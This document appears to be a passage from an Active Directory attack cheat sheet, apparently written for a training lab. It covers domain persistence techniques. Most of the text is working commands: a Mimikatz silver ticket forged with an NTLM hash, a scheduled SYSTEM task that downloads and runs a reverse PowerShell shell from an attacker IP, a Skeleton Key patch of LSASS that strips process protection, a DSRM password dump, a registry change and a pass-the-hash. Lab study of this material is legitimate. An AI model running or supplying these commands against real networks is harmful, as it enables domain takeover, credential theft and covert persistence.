 Create a silver ticket for the HOST SPN which will allow us to schedule a task on the target:
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:6f5b5acaf7433b3282ac22e21e62ff22 /user:Administrator /ptt"'
```

Schedule and execute a task.
```bash
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "DBCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.1/Public/Invoke-PowerShellTcpEx.ps1''')'"

schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "DBCheck"
```

## Skeleton Key

With DA privileges, it is possible to patch a Domain Controller (LSASS process) so that it allows access as any user with a single password.

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

The enables access any machine with a valid username using a password of `mimikatz`:
```powershell
# Default password is mimikatz
Enter-PSSession -Computername dcorp-dc -credential dcorp\Administrator
```

In case LSASS is running as a protected process, we can still use Skeleton Key but it needs the Mimikatz driver (`mimidriv.sys`) on disk of the target DC:
```bash
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```

## Directory Services Restore Mode

The DSRM password (`SafeModePassword`) is required when a server is promoted to Domain Controller and it is rarely changed. 

Dump DSRM password (needs DA privileges):
```powershell
Invoke-Mimikatz-Command '"token::elevate" "lsadump::sam"' -Computername dcorp-dc
```

After altering the configuration on the DC, it is possible to pass the NTLM hash of this user to access the DC.
```powershell
# Change DSRM account logon behaviour
Enter-PSSession -Computername dcorp-dc
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD

# Pass the hash
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"'
```
